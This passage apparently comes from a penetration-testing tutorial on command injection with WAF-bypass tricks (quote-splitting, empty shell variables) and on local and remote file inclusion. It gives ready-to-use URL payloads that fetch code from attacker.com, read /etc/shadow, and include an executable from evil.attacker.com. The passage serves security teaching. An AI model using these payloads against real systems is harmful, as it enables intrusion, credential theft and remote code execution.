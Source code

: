 ```
http://domain/product/?id='w\get 10.10.10.10 -O /tmp'
```

Most importantly is to avoid using \[/] and append the full command with single quotes \['']. In some cases you may need to prepend the command with a \[space] such as the below one

```
http://domain/product/?id= 'w\get 10.10.10.10 -O /tmp'
```

**Using empty shell variables** Example of empty shell variables is below

```
${emptyshellvariable}
```

We can place this in between letters of prohibited characters/commands. Let's take the below URL

```
http://domain/product/?id=one
```

With command injection and WAF bypass it becomes like below

```
http://domain/product/?id=wget http://attacker.com${emptyshellvariable}/sh${emptyshellvariable}ell
```

Or to display the /etc/shadow file contents

```
http://domain/product/?id=CAT /e${emptyshellvariable}tc/${emptyshellvariable}shad${emptyshellvariable}ow
```

#### File Inclusion

File inclusion attacks not only retrieve a file from the local operating system and display it to the attacker, but also execute the code contained within a file, allowing the attacker to fool the web server into executing arbitrary code. **Local file inclusion attacks** seek to execute code stored in a file located elsewhere on the web server. They work in a manner very similar to a directory traversal attack. For example, an attacker might use the following URL to execute a file named attack.exe that is stored in the `C:\www\uploads` directory on a Windows server

```
http://www.mycompany.com/app.php?include=C:\\www\\uploads\\attack.exe
```

**Remote file inclusion attacks** allow the attacker to go a step further and execute code that is stored on a remote server. These attacks are especially dangerous because the attacker can directly control the code being executed without having to first store a file on the local server. For example, an attacker might use this URL to execute an attack file stored on a remote server

```
http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe
```

**Local File Inclusion**

**Method one: manipulating the URL parameter**
